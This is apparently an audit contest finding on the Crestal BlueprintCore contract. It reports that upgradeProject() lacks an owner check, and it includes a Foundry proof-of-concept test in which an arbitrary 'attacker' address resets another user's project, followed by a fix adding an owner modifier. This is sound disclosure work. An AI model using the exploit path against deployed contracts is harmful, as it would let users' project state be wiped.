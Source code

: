 Wild Champagne Griffin

Medium

# Anybody can reset an existing project.

### Summary

missing projectId creator/owner check in upgradeProject(). This missing check can cause an attacker to reset any created project

### Root Cause

In upgradeProject() - https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198

The function has a modifier hasProject(projectId) - https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L165-L173, this modifier only checks if the projectId passed to the upgradeProject() has been added to the contract state and not if the person reseting a project is the one that sets it.

This allows existing projects to be reset incase of any issue, abnormalities, etc.

### Internal Pre-conditions

1. user1 sets a new projectId with a proposal request using createProjectIDAndProposalRequest() 
OR
1. user1 sets a new projectId with a deployment request using createProjectIDAndDeploymentRequest()

### External Pre-conditions

None

### Attack Path

1. the attacker calls upgradeProject() with any projectId to reset project state.

### Impact

The protocols will suffer revenue loss, as users will get tired and possible leave the protocol as their project state can be reset after paying gas to create project, proposal, deployment etc.

### PoC

Add the following test function in BlueprintV5.t.sol and then run "forge test test/BlueprintV5.t.sol"


`
        

       function test_resetProjectByAnyUser() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        address attacker = vm.addr(1);

        // Generate the signature
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);

        // Expect the createAgent event
        vm.expectEmit(true, false, true, true);
        emit BlueprintCore.CreateAgent(projectId, "fake", signerAddress, 0, 0);

        // Create agent with token
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );


        vm.startPrank(attacker);
        blueprint.upgradeProject(projectId);

        (address solver, bytes32 requestProposalID,) = blueprint.getProjectInfo(projectId);

        assertEq(requestProposalID,"");
    }
`

The above test will show that any user can reset any existing project state.

### Mitigation

in https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L50-L55

add a new variable - address projectOwner

When setting a new project, in this logic - https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L178-L179

modify it to:
```solidity
Project memory project =
            Project({id: projectId, requestProposalID: 0, requestDeploymentID: 0, proposedSolverAddr: dummyAddress, projectOwner: userAddr});
```

This will set the project owner.

Then add a modifier called isProjectOwner(bytes32 projectId) after https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L163

```solidity
modifier isProjectOwner(bytes32 projectId, address userAddr) {
        // check project id owner
        require(projects[projectId].projectOwner == userAddr, "not projectId owner");
        _;
    }
```

then modify upgradeProject() - https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198

To

    function upgradeProject(bytes32 projectId) public hasProject(projectId) isProjectOwner(projectId, msg.sender) { }